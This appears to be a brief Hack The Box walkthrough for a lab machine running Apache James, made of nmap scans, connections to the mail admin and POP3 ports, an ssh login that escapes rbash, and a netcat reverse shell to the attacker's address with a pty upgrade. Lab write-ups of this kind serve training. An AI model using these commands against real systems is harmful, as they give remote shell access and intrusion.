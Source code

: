 ```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
LinEnum.sh
reverse shell - nc
move to bash
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.10.51
```
![image](https://user-images.githubusercontent.com/33616880/232411290-0737e4a9-3728-48cc-8020-4d623612be4c.png)


```
nmap -p- -T5 10.10.10.51
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c4dc1085-200e-4e78-8228-8110bf48ae04)


```
apache james server
```
![image](https://user-images.githubusercontent.com/33616880/232411391-2215be98-0a72-481c-ada2-a785cb0045de.png)



```
nc 10.10.10.51 4555
```
![image](https://user-images.githubusercontent.com/33616880/232411422-93d8116f-02c2-4fdf-b374-6702e705afc7.png)



```
telnet 10.10.10.51 110
```
![image](https://user-images.githubusercontent.com/33616880/232411664-8c8044ef-1c89-441b-853f-55518768d4d7.png)
![image](https://user-images.githubusercontent.com/33616880/232411688-9d73ae68-51d5-401c-b5b3-b72917a225a4.png)



![image](https://user-images.githubusercontent.com/33616880/232411771-ce69392f-c335-4296-b432-bad7cf52866c.png)



```
ssh mindy@10.10.10.51 -t bash
```
![image](https://user-images.githubusercontent.com/33616880/232411850-787a182b-1bf5-409f-b09d-8b6d55570d87.png)



![image](https://user-images.githubusercontent.com/33616880/232417537-d85deedc-395d-4e0e-a8ee-c581372f6d2c.png)



```
nc -e /bin/sh 10.10.14.7 4444
```
![image](https://user-images.githubusercontent.com/33616880/232412026-ce4ec090-a949-4f8d-ac04-58a730fc8cfd.png)
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/33616880/232412051-828a625b-5617-4f42-994f-026aeb567b26.png)

